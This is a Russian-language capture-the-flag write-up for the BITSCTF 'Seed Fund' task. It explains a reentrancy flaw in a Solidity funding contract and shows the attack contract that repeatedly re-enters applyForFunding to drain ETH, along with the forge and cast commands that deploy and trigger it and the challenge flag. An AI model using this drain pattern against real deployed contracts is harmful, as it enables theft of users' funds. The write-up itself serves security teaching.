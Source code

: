 # Seed Fund

Флаг: BITSCTF{Crypt0_M1lli0n4ir3_14e3fd12}

---

Категория: misc
Уровень сложности: Средний
Использованные инструменты: [foundry](https://book.getfoundry.sh/)

Суть задания: дан [смарт-контракт](https://github.com/mtchuikov/ctfs/2025/BITSkrieg/assets/AngelInvestor.sol), написанный на Solidity. Для получения флага необходимо взломать его, выведя часть средств с баланса.

Примечание: во время соревнования для каждого пользователя контракт развертывался в отдельной тестовой сети со стартовым балансом в 500 ETH. Участнику выдавался заранее сгенерированный кошелек с небольшой суммой ETH. 

---
Решение:

В предложенном для взлома контракте есть функция `isChallSolved`, которая определяет условия, при наличии которых задание считается выполненным. В данном случае нам нужно сделать так, чтобы баланс адреса, вызывающего ее, был больше чем значение переменной контракта `CHALLENGE_THRESHOLD`, равное 100 ETH. Добиться желаемого результата можно только взломав его, ведь наш стартовый баланс небольшой и нет других путей его увеличить.

Анализ кода показал наличие нескольких функций, которые способны передавать баланс от аккаунта контракта к пользователю: `applyForFunding` и `buyCompany`. Однако изучать вторую из них более детально не имеет смысла, поскольку ее вызовы ограничены модификатором `onlyInvestor`, аналогичным по функционалу с модификатором [onlyOwner](https://docs.openzeppelin.com/contracts/5.x/api/access#Ownable-onlyOwner--) , разрешающим взаимодействие с ней только, по-сути, владельцу контракт.

```
    ...
    modifier onlyInvestor() {
        require(msg.sender == investor, "Only investor can perform this");
        _;
    }

    constructor() payable {
        investor = msg.sender;
        totalFunds = address(this).balance;
    }
    ...
```

Однако первая функция, `applyForFunding`, действительно, содержит уязвимость. Как можно заметить, изменения состояния переменной `hasReceivedFunding`, обозначающей то, что средства уже переводились пользователю, происходит только после самого перевода средств.

```
    ...
    function applyForFunding(uint256 equityOffered) external {
        require(equityOffered > 0 && equityOffered <= 7, "Equity offered must be between 1% and 7%");
        // защита от многократного перевода ETH
        require(!startups[msg.sender].hasReceivedFunding, "Already funded");

        uint256 fundingAmount = equityOffered * 3 ether;
        require(fundingAmount <= 21 ether, "Cannot exceed 21 ETH funding");
        require(totalFunds >= fundingAmount, "Not enough funds available");

        // перевод средств пользователю
        (bool success,) = msg.sender.call{value: fundingAmount}("");
        require(success, "Funding transfer failed");

        totalFunds -= fundingAmount;
        startups[msg.sender].fundingAmount += fundingAmount;
        startups[msg.sender].equityOffered = equityOffered;
        // устанавливаем значение переменной, показывающее, что ETH уже переводился
        startups[msg.sender].hasReceivedFunding = true;
    }
    ...
```

Такое поведение - перевод ETH на любой аккаунт, включая принадлежащий смарт-контракту, а также изменение состояния только после перевода - явно указывает на наличие уязвимости, известной как [Reentrancy](https://docs.soliditylang.org/en/latest/security-considerations.html), которая заключается в непредусмотренном логикой программы повторном вызове функции до того, как интеракция полностью завершиться. Схематично она может быть представлена следующим образом:

![reentrancy schema](https://github.com/mtchuikov/ctfs/2025/BITSkrieg/assets/reentrancy.png)

В нашем случае атака реализуется весьма тривиально (полный код [контракта](https://github.com/mtchuikov/ctfs/2025/BITSkrieg/assets/AngelInvestorAttack.sol)):

```
    ...
    function attack() external onlyOwner {
        target.applyForFunding(7);
        // ETH поступает на аккаунт контракта, поэтому нужно вызвать эту функцию из него.
        // В противном случае удовлетворить ее условиям не получится.
        target.isChallSolved();
    }

    receive() external payable {
        // Задаем условия выхода из цикла вызовов. Если этого не сделать, то функция будет
        // вызывать бесконечно до тех пор, пока не завершится с ошибкой.
        if (address(this).balance < target.CHALLENGE_THRESHOLD()) {
            target.applyForFunding(7);
        }
    }
    ...
``` 

Остается только развернуть контракт при помощи утилиты из набора [foundry](https://book.getfoundry.sh/) `forge create --rpc-url SET_RPC_URL --private-key SET_PRIVATE_KEY --constructor-args SET_TARGET_CONTRACT --broadcast SET_PATH_TO_REENTRANCY_CONTRACT:Reentrancy ` и выполнить вызов функции `attack` для начала атаки `cast send SET_REENTRANCY_CONTRACT "attack()" --private-key SET_PRIVATE_KEY --rpc-url RPC_URL`.